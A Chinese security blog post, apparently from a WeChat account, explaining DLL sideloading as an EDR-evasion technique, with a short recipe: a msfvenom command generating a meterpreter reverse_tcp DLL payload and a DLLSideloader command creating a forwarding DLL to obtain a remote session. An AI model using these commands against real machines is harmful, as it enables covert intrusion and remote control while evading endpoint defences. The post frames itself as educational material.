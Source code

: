 ##  Sideloading DLL攻击

鸿鹄实验室a  [ 鸿鹄实验室 ](javascript:void\(0\);)

**鸿鹄实验室** ![]()

微信号 gh_a2210090ba3f

功能介绍 鸿鹄实验室，欢迎关注

____

__

收录于话题

今天看到了国外的一个白皮书，地址如下：

  

https://res.mdpi.com/d_attachment/jcp/jcp-01-00021/article_deploy/jcp-01-00021.pdf

  

内容主要是各类技术在遇到EDR时能不能成功的绕过。

  

![](https://gitee.com/fuli009/images/raw/master/public/20210823075055.png)

  

最后以一份表格总结了各类功能以及绕过效果：

  

![](https://gitee.com/fuli009/images/raw/master/public/20210823075109.png)

  

我们可以看到，dll几乎绕过了所有的EDR，而这里的DLL指的便是Sideloading DLL。

  

Sideloading DLL最早应该是在一份APT报告中被提出来的，即DLL侧加载。

文档地址：

  

https://www.recordedfuture.com/apt10-cyberespionage-
campaign/?__cf_chl_jschl_tk__=pmd_VKrHUzdleNocPJnRemvxCVGmjY8gkMwlsZM361GthcI-1629625791-0-gqNtZGzNAjujcnBszQil

  

![]()

  

原理如下：

  

![](https://gitee.com/fuli009/images/raw/master/public/20210823075110.png)

即中间经过转发来加载恶意dll。

  

利用方法：

  

首先找到一个存在dll加载(或劫持)的程序，然后使用msf生成dll

  

  * 

    
    
    msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f dll -a x86 > payload.dll

  

然后使用DLLSideloader来生成我们的转发dll，工具地址：

  

https://github.com/SkiddieTech/DLLSideloader

  

然后生成所需的文件即可

  

  * 

    
    
    Invoke-DLLSideLoad libcurl.dll payload.dll

  

然后执行exe文件，即可获取session。

  

  
  
  
  
  
     ▼更多精彩推荐，请关注我们▼

  

 **请严格遵守网络安全法相关条例！此分享主要用于学习，切勿走上违法犯罪的不归路，一切后果自付！**

  

![](https://gitee.com/fuli009/images/raw/master/public/20210823075111.png)

  

  

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

Sideloading DLL攻击

最多200字，当前共字

__

发送中

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()

